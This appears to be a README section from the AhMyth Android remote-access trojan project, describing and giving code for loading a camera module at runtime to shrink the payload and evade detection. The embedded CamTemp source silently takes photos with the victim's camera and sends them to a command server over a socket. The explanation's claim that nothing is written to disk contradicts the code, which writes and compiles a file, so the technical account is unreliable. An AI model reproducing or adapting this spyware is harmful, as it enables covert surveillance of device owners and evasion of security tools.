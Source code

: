 ## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>
> A feature inspired by Metasploit Framework's Android Meterpreter payload.

If this ever does become a reality it will aid GREATLY in minimising the payload size and possibly detection as well.

<details>
  <summary>Experminetal Code Explanation</summary>
  <br>
  
The provided code in the dropdown tab below this one, performs the following operations listed below, all in memory, except for the part responsible for the generation of the "CameraManager.java" file, which is later used for dynamic in memory compilation, but even there, nothing is physically written to disk at all, Everything else, including compilation, loading, and instance creation, occurs entirely in memory.
  
**Generation Phase (In Memory):**

1. **Retrieve Source Code (In Memory):**
   - The source code is retrieved from `CamTemp.CAMERA_SOURCE_CODE` and stored in the `camTempSourceCode` variable, all in memory.

2. **Generate Dynamic Class (In Memory):**
   - Using the retrieved source code, a dynamic Java class is generated in memory using `TypeSpec.classBuilder("CameraManager")` from the `JavaPoet` library. The class is created entirely in memory.

3. **Create Java File (In Memory):**
   - A Java file, containing the generated dynamic class, is created in memory (`JavaFile`). The class is placed in a package named "ahmyth.mine.king.ahmyth," but this is all done in memory.

4. **Write Java Code to a File (On Disk):**
   - The generated Java code is written to a file named "CameraManager.java" using a `FileWriter`, but this file is also created in memory and later used for compilation. No physical file is written to disk during this phase.

**Loading Phase (In Memory):**

1. **Compilation (In Memory):**
   - The generated Java code in "CameraManager.java" is compiled entirely in memory using the Java Compiler API (`JavaCompiler`). This means the compilation result is held in memory.

2. **Check Compilation Result (In Memory):**
   - After compilation, it checks the `compilationResult` entirely in memory to determine if the compilation was successful or not. There is no physical file on disk involved in this step.

3. **Load Compiled Class (In Memory):**
   - A `DexClassLoader` is used to load the compiled class in memory from the generated .dex file, without writing anything to disk.

4. **Create Instance (In Memory):**
   - Finally, an instance of the dynamically generated class is created entirely in memory using reflection (`generatedClass.getDeclaredConstructor().newInstance()`). This instance exists only in memory and can be used for further operations.

</details>

<details>
  <summary>Code</summary>

- ClassGen.java
> Responsible for Dynamically both Generating and Loading the Camera Manager Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.FileWriter;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFile = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFile.toString();

            try (FileWriter writer = new FileWriter("CameraManager.java")) { // Change the output file name here
                writer.write(javaCode);
            }

            String dexPath = "./";
            String optimizedDexOutputPath = "./";

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, "CameraManager.java"); // Change the input file name here

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            ClassLoader classLoader = new DexClassLoader(
                    "CameraManager.dex", // Change the compiled .dex file name here
                    optimizedDexOutputPath,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
- CamTemp.java
> Template file for the Camera Manager Class needed for dynamic generation
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

